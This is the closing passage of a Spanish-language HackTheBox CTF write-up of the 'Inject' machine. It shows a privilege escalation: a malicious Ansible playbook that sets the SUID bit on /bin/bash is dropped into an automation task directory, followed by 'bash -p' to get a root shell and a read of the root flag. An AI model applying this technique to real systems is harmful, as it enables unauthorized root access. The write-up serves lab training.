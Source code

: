 

```
---
- name: test play
  hosts: localhost
  serial: 3
  gather_facts: False

  tasks:
    - name: first task
      command: chmod u+s /bin/bash
```

A continuación, guardaremos este contenido en un archivo llamado `pwned.yml` en el directorio `/opt/automation/tasks/`. Después de unos minutos, el archivo `/bin/bash` adquirirá el atributo SUID.

```
phil@inject > ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Ahora solo nos queda ejecutar el comando `bash -p` para obtener una shell como root.

```
phil@inject > bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt
b1e**************************205
bash-5.0# 
```



### Thank you for reading:

+  [Instagram](https://www.instagram.com/elswix_/)
+  [YouTube](https://www.youtube.com/@ElSwix)
+  [Twitter](https://twitter.com/elswix_)
+  [HackTheBox](https://app.hackthebox.com/profile/935172)


#### My Blog: 

+ [WebHackology - Pentesting & Web Development](https://webhackology.vercel.app/)


